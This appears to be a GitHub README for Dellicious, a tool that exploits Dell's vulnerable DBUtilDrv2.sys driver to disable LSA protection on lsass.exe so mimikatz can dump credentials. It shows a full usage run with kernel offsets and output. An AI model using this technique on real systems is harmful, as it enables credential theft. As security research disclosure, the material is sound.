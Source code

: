 # Dellicious

Dellicious is a tool for enabling/disabling LSA protection on arbitrary processes via a vulnerability in Dell's DBUtilDrv2.sys driver (version 2.5 or 2.7). Dellicious drops the vulnerable driver to disk, installs it, exploits it, and then removes it. That obviously requires administrator access, but that's fairly normal for LSA Protect bypass techniques. See:

* [PPLKiller](https://github.com/RedCursorSecurityConsulting/PPLKiller) - LSA protect bypass using `rtcore.sys`
* [PPLDump](https://github.com/itm4n/PPLdump) - LSA protect bypass using `DefineDosDevice` and known dlls
* [mimidrv](https://posts.specterops.io/mimidrv-in-depth-4d273d19e148) - Mimikatz kernel driver. LSA protect bypass by being a signed kernel driver :-D

LSA protection blocks memory access from other processes (a bit of an oversimplifaction but forgive me). When enabled lsass.exe can't have it's memory dumped by tools like mimikatz. Obviously, running mimikatz is extremely desirable for an attacker. Using this tool the attacker is able to disable the protection and dump/access memory.

Similarly, it may be desirable to enable memory protection on our own processes. So Dellicious exposes that functionality as well.

For more reading on LSA protection, I suggest the blog *[Do You Really Know About LSA Protection (RunAsPPL)?](https://itm4n.github.io/lsass-runasppl/)* by Clement Labro (the author of PPLDump).

## Example GIF

Oh no. It's too big to host on github :(

## Example CLI Usage

In the following, lsass.exe is pid 740. I've instructed Dellicious to disable protection using DBUtilDrv2.sys version 2.7.

```
C:\Users\albinolobster\Desktop>.\dellicious.exe -p 740 -e 0 -d 1
[+] User provided pid: 740
[+] Windows version found: 2009
[+] Using offsets:
        UniqueProcessIdOffset = 0x440
        ActiveProcessLinkOffset = 0x448
        SignatureLevelOffset = 0x878
[+] Dropping version 2.7 to disk
[+] Attempting driver install...
[+] Driver installed!
[+] Device handle has been obtained @ \\.\DBUtil_2_5
[+] Ntoskrnl base address: fffff80615c00000
[+] PsInitialSystemProcess address: ffffa20e29860180
[+] Target process address: ffffa20e2b3e10c0
[+] Current SignatureLevel, SectionSignatureLevel, Type, Audit, and Signer bits (plus 5 bytes): 40c0000041083c
[+] Writing flags back as: 40c00000000000
[+] Done!
[+] Removing device
[!] Clean exit! o7
```

## Credit

This codebase is heavily influenced by PPLKiller (mentioned above). It also was influenced by the dbutil_2_3.sys metasploit module as well as [Mitch Zakocs'](https://www.mitchellzakocs.com/blog/dbutil) write up on CVE-2021-21551.
